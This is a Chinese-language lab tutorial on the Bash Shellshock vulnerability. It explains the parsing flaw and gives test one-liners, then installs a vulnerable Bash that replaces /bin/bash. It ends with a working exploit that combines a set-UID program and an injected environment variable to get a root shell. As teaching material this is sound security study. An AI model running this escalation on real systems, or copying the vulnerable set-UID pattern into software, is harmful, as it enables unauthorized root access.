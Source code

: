 # Shellshock攻击

## 背景

2014年9月24日，Bash程序被发现存在一个严重的安全漏洞。攻击者可以利用该漏洞在被影响的服务器上执行任意代码。这个严重的安全漏洞被称为
Shellshock漏洞。

## 漏洞原理

Bash源代码variables.c这个文件中有下面这段代码：
![Bash源代码](img/shellshock-source.png)  
这个函数的作用是读取环境变量的值并转换成函数，由于他只判断了值的头没有判断尾，故只要在尾部加入攻击语句就会执行

## 测试方法

方法一：
```bash
export foo='() { echo "hello world"; }; echo "extra";'
bash
```
方法二：
```bash
env x='() { :;}; echo vulnerable' bash -c "echo this is a test "
```

## 环境搭建

```bash
sudo apt-get update
sudo apt install gcc make -y  
wget http://ftp.gnu.org/gnu/bash/bash-4.1.tar.gz tar xf bash-4.1.tar.gz
cd bash-4.1
./configure
make
sudo make install
sudo rm /bin/bash
ln -s /usr/local/bin/bash /bin/bash
```

## 攻击Set-UID获取root权限

```c
#include <unistd.h>
#include <stdio.h>
#include <stdlib.h>

void main()
{
    setuid(geteuid());
    system("/bin/ls -l");
}
```
```bash
sudo ln -sf /bin/bash /bin/sh
gcc vul.c -o vul
./vul
sudo chown root vul
sudo chmod 4755 vul
./vul
export foo='() { echo hello; }; /bin/sh'
./vul
```
就得到root权限的shell：
![setuid攻击](img/shellshock-vul.png)

!!! Note

    system()函数原理：system会调用fork()函数创建子进程，然后使用execl()函数执行/bin/sh程序，
    最终请求shell程序执行/bin/ls指令。


!!! warning

    如果用vagrant创建的虚拟机，注意/vagrant目录下是不能chown成root的，必须换一个目录  
    输入函数时注意大括号前后有空格  
